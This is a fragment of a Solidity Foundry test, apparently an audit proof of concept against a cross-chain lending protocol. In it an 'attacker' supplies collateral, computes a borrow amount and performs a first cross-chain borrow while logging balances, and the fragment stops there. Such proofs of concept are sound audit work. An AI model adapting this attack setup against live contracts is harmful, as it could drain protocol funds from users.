 ```solidity
        IERC20(token).approve(address(coreRouterA), collateralAmount);
        coreRouterA.supply(collateralAmount, token);
        vm.stopPrank();

        // 2. Calculate maximum borrowable amount (around 80% of collateral value)
        uint256 maxBorrow = lendStorageA.getMaxBorrowAmount(attacker, lToken);
        uint256 borrowAmount = (maxBorrow * 75) / 100; // Borrow 75% of max
        console2.log("------------ SETUP ------------");
        console2.log(
            "Collateral on Chain A:",
            collateralAmount / 1e18,
            "tokens"
        );
        console2.log("Max borrow amount:", maxBorrow / 1e18, "tokens");
        console2.log("Amount to borrow:", borrowAmount / 1e18, "tokens");

        // Fund Router with ETH for LayerZero fees
        vm.deal(address(routerA), 1 ether);

        // Supply liquidity on Chain B (so there are tokens to borrow)
        _supplyB(collateralAmount * 2);

        // Get destination token information
        address destToken = lendStorageA.underlyingToDestUnderlying(
            token,
            CHAIN_B_ID
        );
        address destLToken = lendStorageA.underlyingToDestlToken(
            token,
            CHAIN_B_ID
        );

        console2.log("destToken: ", destToken);
        console2.log("destLToken: ", destLToken);
        // Record initial balances
        uint256 initialAttackerBalance = IERC20(destToken).balanceOf(attacker);
        uint256 initialProtocolBalance = IERC20(destToken).balanceOf(
            destLToken
        );
        console2.log(
            "Initial attacker balance:",
            initialAttackerBalance / 1e18,
            "tokens"
        );
        console2.log(
            "Initial protocol balance:",
            initialProtocolBalance / 1e18,
            "tokens"
        );

        // 3. Execute first cross-chain borrow from Chain A to Chain B
        vm.startPrank(attacker);
        routerA.borrowCrossChain(borrowAmount, token, CHAIN_B_ID);
        vm.stopPrank();

        // Check balance after first borrow
        uint256 balanceAfterFirstBorrow = IERC20(destToken).balanceOf(attacker);
        console2.log("------------ AFTER FIRST BORROW ------------");
        console2.log(
            "Successfully borrowed cross-chain from A to B:",
            borrowAmount / 1e18,
            "tokens"
        );
```